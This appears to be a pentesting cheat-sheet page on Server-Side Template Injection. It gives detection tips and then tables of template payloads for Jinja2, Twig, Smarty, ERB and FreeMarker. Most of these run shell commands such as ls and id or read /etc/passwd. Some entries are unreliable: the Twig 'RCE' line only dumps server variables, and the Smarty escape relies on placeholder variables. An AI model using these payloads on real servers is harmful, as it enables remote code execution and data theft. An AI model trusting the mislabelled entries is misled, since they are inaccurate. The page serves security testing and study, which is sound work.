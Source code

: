 ```yaml
---
legal-banner: true
---
```


```mermaid
sequenceDiagram
    participant A as Attacker
    participant B as Web Server
    participant C as Template Engine
    participant U as User

    A->>B: 1. Sends SSTI Payload
    B->>C: 2. Passes Input to Template Engine
    C-->>B: 3. Executes Template Code with Payload
    B-->>U: 4. Sends Response with Rendered Output
```

### **Introduction**

Server-Side Template Injection (SSTI) is a vulnerability that accurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. SSTI can lead to Remote Code Execution (RCE) on the server.

### **Detection Techniques**

| Technique | Description |
| --- | --- |
| Fuzzing the Template | Inject special characters (e.g., `${{<%[%'"}}%\)` into the template and analyze differences in server responses compared to regular data. |
| Error Responses | Look for thrown errors that reveal the vulnerability and potentially identify the template engine. |
| Reflection Analysis | Check if the payload is absent in the reflection, or parts of it are missing, implying the server processes it differently than regular data. |
| Plaintext Context | Verify if the server evaluates template expressions (e.g., `{{7*7}}`, `${7*7}`) to distinguish from XSS. |

### **Jinja2 (Python)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `{{7*7}}` | Returns 49 |
| RCE Example | `{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}` | Output of ls command |
| Sandbox Escape | `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}` | Content of /etc/passwd |

### **Twig (PHP)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `{{7*7}}` | Returns 49 |
| RCE Example | `{{ dump(app.request.server.all) }}` | Dumps server variables |
| Sandbox Escape | `{{ _self.env.registerUndefinedFilterCallback("exec") }}{{ _self.env.getFilter("id") }}` | Executes id command |

### **Smarty (PHP)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `{math equation="x * y" x=7 y=7}` | Returns 49 |
| RCE Example | `{php}echo shell_exec('ls'){/php}` | Output of ls command |
| Sandbox Escape | `{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME, $exploit_code, $smarty)};` | Writes and executes exploit code |

### **ERB (Ruby)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `<%= 7 * 7 %>` | Returns 49 |
| RCE Example | `<%= system('ls') %>` | Output of ls command |
| Sandbox Escape | Not typically sandboxed, but depends on configuration | N/A |

### **FreeMarker (Java)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `${7*7}` | Returns 49 |
| RCE Example | `${"freemarker.template.utility.Execute"?new()("id")}` | Output of id command |
| Sandbox Escape | `${product.getClass().getDeclaredMethods()[0].invoke(product, null)}` | Invokes method on product |